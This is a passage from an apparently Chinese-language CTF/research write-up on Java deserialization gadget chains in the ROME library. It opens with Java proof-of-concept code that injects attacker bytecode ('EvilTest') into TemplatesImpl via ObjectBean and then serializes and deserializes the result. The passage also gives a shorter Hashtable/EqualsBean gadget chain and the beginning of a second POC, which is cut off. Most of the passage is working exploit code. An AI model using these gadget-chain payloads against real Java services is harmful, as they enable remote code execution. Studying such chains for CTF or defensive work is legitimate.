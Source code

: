```java
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        ObjectBean delegate = new ObjectBean(Templates.class, templates);
        ObjectBean root  = new ObjectBean(ObjectBean.class, delegate);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(root, "123");

        byte[] obj = serialize(hashMap);
        deserialize(obj);
    }

}

```



# 其他利用链

为什么这分析了其他的利用链，因为有个题目，涉及到ROME的反序列化，但是他限制了payload的长度，而原来ysoserial的链子，用的都是ObjectBean，这个东西一下去实现了三个bean，所有payload会非常的长，所以涉及到了其他利用链的挖掘

![image-20221026141100726](https://tuchuang.huamang.xyz/img/image-20221026141100726.png)

## 0x01 Hashtable

gadget

```
Hashtable.readObject()
  Hashtable.reconstitutionPut()
  	AbstractMap.equals()
    EqualsBean.equals(TemplatesImpl)
      EqualsBean.beanEquals(TemplatesImpl)
        pReadMethod.invoke(_obj, NO_PARAMS)
        	TemplatesImpl.getOutputProperties()
```

POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ROME2 {
    public static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
```